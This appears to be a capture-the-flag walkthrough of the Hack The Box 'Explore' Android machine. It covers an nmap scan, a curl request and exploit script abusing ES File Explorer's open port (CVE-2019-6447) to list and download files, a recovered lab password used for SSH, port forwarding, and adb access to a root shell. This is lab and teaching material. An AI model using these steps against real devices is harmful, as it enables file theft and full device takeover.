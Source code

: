 ```yaml
---
layout: default
---
```


# 05 - Nmap
```sql
# Nmap 7.91 scan initiated Tue Oct 26 05:04:52 2021 as: nmap -sC -sV -p- -oA nmap/explore -vvv 10.10.10.247
Nmap scan report for 10.10.10.247
Host is up, received echo-reply ttl 63 (0.076s latency).
Scanned at 2021-10-26 05:04:52 EDT for 161s
Not shown: 65530 closed ports
Reason: 65530 resets
PORT      STATE    SERVICE REASON         VERSION
2222/tcp  open     ssh     syn-ack ttl 63 (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-SSH Server - Banana Studio
| ssh-hostkey: 
|   2048 71:90:e3:a7:c9:5d:83:66:34:88:3d:eb:b4:c7:88:fb (RSA)
|_ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCqK2WZkEVE0CPTPpWoyDKZkHVrmffyDgcNNVK3PkamKs3M8tyqeFBivz4o8i9Ai8UlrVZ8mztI3qb+cHCdLMDpaO0ghf/50qYVGH4gU5vuVN0tbBJAR67ot4U+7WCcdh4sZHX5NNatyE36wpKj9t7n2XpEmIYda4CEIeUOy2Mm3Es+GD0AAUl8xG4uMYd2rdrJrrO1p15PO97/1ebsTH6SgFz3qjZvSirpom62WmmMbfRvJtNFiNJRydDpJvag2urk16GM9a0buF4h1JCGwMHxpSY05aKQLo8shdb9SxJRa9lMu3g2zgiDAmBCoKjsiPnuyWW+8G7Vz7X6nJC87KpL
5555/tcp  filtered freeciv no-response
39713/tcp open     unknown syn-ack ttl 63
42135/tcp open     http    syn-ack ttl 63 ES File Explorer Name Response httpd
|_http-title: Site doesn't have a title (text/html).
59777/tcp open     http    syn-ack ttl 63 Bukkit JSONAPI httpd for Minecraft game server 3.6.0 or older
Service Info: Device: phone

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Oct 26 05:07:33 2021 -- 1 IP address (1 host up) scanned in 160.98 seconds
```


We know that it is an Android box. Instead of googling around as soon as the output fills up the screen, I like to go ahead and use netcat to see how the service communicates with us to get a raw idea. Then proceeding to look for known vulnerabilities will be a good start as this is an easy box.


# 10 - ES File Explorer


![](vx_images/18852584880067.png)


There is a public exploit against ES File Explorer, but we don't have a way to check the version. The date on the exploit, however, is promising. Let us blindly run the script against the server.

In, short the exploit sends a json payload to 59777 (open port vulnerability).

`$ curl --header "Content-Type: application/json" --request POST --data '{"command":"listFiles"}' http://10.10.10.247:59777`



# Commands
```bash
┌──(kali㉿kali)-[~/htb/explore/exploit]
└─$ python3 ./50070.py  help 10.10.10.247   
[-] WRONG COMMAND!
Available commands : 
  listFiles         : List all Files.
  listPics          : List all Pictures.
  listVideos        : List all videos.
  listAudios        : List all audios.
  listApps          : List Applications installed.
  listAppsSystem    : List System apps.
  listAppsPhone     : List Communication related apps.
  listAppsSdcard    : List apps on the SDCard.
  listAppsAll       : List all Application.
  getFile           : Download a file.
  getDeviceInfo     : Get device info.
```

The one we get lucky with is the listPics command.

# Pics
```bash
┌──(kali㉿kali)-[~/htb/explore/exploit]
└─$ python3 ./50070.py  listPics 10.10.10.247   

==================================================================
|    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |
|                Coded By : Nehal a.k.a PwnerSec                 |
==================================================================

name : concept.jpg
time : 4/21/21 02:38:08 AM
location : /storage/emulated/0/DCIM/concept.jpg
size : 135.33 KB (138,573 Bytes)

name : anc.png
time : 4/21/21 02:37:50 AM
location : /storage/emulated/0/DCIM/anc.png
size : 6.24 KB (6,392 Bytes)

name : creds.jpg
time : 4/21/21 02:38:18 AM
location : /storage/emulated/0/DCIM/creds.jpg
size : 1.14 MB (1,200,401 Bytes)

name : 224_anc.png
time : 4/21/21 02:37:21 AM
location : /storage/emulated/0/DCIM/224_anc.png
size : 124.88 KB (127,876 Bytes)
```


creds.jpg is likely short for *credentials*.

# creds.jpg
```bash
┌──(kali㉿kali)-[~/htb/explore/exploit]
└─$ python3 ./50070.py  getFile 10.10.10.247    /storage/emulated/0/DCIM/creds.jpg

==================================================================
|    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |
|                Coded By : Nehal a.k.a PwnerSec                 |
==================================================================

[+] Downloading file...
[+] Done. Saved as `out.dat`.
┌──(kali㉿kali)-[~/htb/explore/exploit]
└─$ open out.dat
```

Let's now open it.

# Credentials
![](vx_images/422521313566709.png)


We've found credentials :)


# Shell
```bash
┌──(kali㉿kali)-[~/htb/explore]
└─$ cat creds 
kristi: Kr1sT!5h@Rp3xPl0r3!

┌──(kali㉿kali)-[~/htb/explore]
└─$ ssh kristi@10.10.10.247 -p 2222
Password authentication
Password: 
:/ $ id
uid=10076(u0_a76) gid=10076(u0_a76) groups=10076(u0_a76),3003(inet),9997(everybody),20076(u0_a76_cache),50076(all_a76) context=u:r:untrusted_app:s0:c76,c256,c512,c768
```


# 15 - PrivEsc


# Open Ports
```bash
:/sdcard $ ss -ltn
State       Recv-Q Send-Q Local Address:Port               Peer Address:Port              
LISTEN      0      50           *:59777                    *:*                  
LISTEN      0      8       [::ffff:127.0.0.1]:39021                    *:*                  
LISTEN      0      50           *:2222                     *:*                  
LISTEN      0      4            *:5555                     *:*                  
LISTEN      0      50       [::ffff:10.10.10.247]:35709                    *:*                  
```

Port 5555 was filtered in our Nmap result. Let's set up port forwarding to enumerate the service because we have no idea what is listening on it.

# Port Forwarding
```bash
┌──(kali㉿kali)-[~/htb/explore]
└─$ ssh kristi@10.10.10.247 -p 2222 -L 5555:127.0.0.1:5555 -p 2222
Password authentication
Password: 
:/ $ 
```

-L flag opens a port in our box and listens for connections to forward it to the remote server on the same port.
# ADB
![](vx_images/116225760927531.png)

Second nmap result is quite verbose because we are making the connection locally. 5555 turns out to be the adb interface. Let us connect to it and get root.

# Root
```bash
┌──(kali㉿kali)-[~/htb/explore]
└─$ adb connect 127.0.0.1:5555 
connected to 127.0.0.1:5555

┌──(kali㉿kali)-[~/htb/explore]
└─$ adb -s 127.0.0.1:5555 shell
x86_64:/ $ id
uid=2000(shell) gid=2000(shell) groups=2000(shell),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3009(readproc),3011(uhid) context=u:r:shell:s0
x86_64:/ $ su
:/ # id
uid=0(root) gid=0(root) groups=0(root) context=u:r:su:s0
:/ # find / -name root.txt 2>/dev/null
/data/root.txt
```
